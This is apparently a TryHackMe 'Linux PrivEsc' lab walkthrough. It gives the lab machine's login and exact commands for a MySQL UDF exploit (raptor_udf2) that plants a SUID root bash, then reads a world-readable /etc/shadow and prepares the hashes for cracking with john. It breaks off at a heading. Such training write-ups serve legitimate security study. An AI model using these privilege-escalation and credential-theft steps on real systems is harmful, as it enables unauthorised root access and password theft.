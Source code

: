 # 7 - Linux PrivEsc

Room Link --> [https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)

The password for the "user" account is "password321".

SSH Login --> `ssh -oHostKeyAlgorithms=+ssh-dss user@10.10.175.212`&#x20;

### 1 - Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:  `cd /home/user/tools/mysql-udf`

Compile the raptor\_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:

`use mysql;`\
`create table foo(line blob);`\
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`\
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`\
`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash`\
`exit`

### 2 - Weak File Permissions - Readable /etc/shadow

Note that the /etc/shadow file on the VM is world-readable:

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

Use `unshadow password_file.txt shadow_file.txt` - to create a crackable format for john to crack.

### 3 - Weak File Permissions - Writable /etc/shadow
